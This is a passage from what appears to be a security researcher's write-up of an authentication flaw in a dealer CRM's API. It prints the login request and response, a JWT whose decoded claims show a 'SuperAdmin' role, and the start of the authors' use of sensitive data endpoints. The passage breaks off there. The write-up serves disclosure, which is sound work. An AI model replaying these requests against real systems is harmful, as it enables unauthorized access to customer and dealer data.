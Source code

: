 
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"message":"Ok","userId":99999}
```
Based on the response we now have the username and the updated password in the system. By now you might have guessed what we did next:


```
POST /api/user/login HTTP/1.1
Host: user.dealercrm.co.in
 
{"username":"CRM66666","password":"test"}
```


Response:

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.<TOKEN>","expiration":"2025-03-03T00:45:44Z","loginStatus":"","mspinExpired":"","lastLogindate":"","lastPasswordChangeDate":"","changePasswordStatus":"Mar 19 2025 9:51AM","otherLogin":"SMR","checkMspinFlag":1}
```
Success! We finally received a valid JWT token in the response—and what we found inside was far more interesting than expected.

Upon decoding the token, one claim immediately stood out: a role assignment with the value "SuperAdmin". This wasn't just any user — it was likely that our user was created with elevated privileges and potentially unrestricted access across the system.

```
{
  "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "SuperAdmin",
  "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/anonymous": "100000",
  "exp": 1740042829,
  "iss": "https://user.dealercrm.co.in/",
  "aud": "https://user.dealercrm.co.in/"
}
```

Now it was only a matter of sending requests with valid request parameters. To be fair, it was a little overwhelming going through all the APIs and identifying impactful endpoints that made sense and with minimal request parameters. I also remember sharing the API json list to ChatGPT to help us shortlisting based on the above criteria. 

After filtering and testing, we were able to successfully interact with over 15 different endpoints — many of which returned highly sensitive customer and dealer information. Below, I’ve highlighted the most impactful requests we uncovered during the assessment.

<br>

### Dealer Data
The API call on `/api/dealeronboarding/getdealerregionlistpending` was the first API we tested after getting the JWT token. It only needed a simple integer value - `userId`
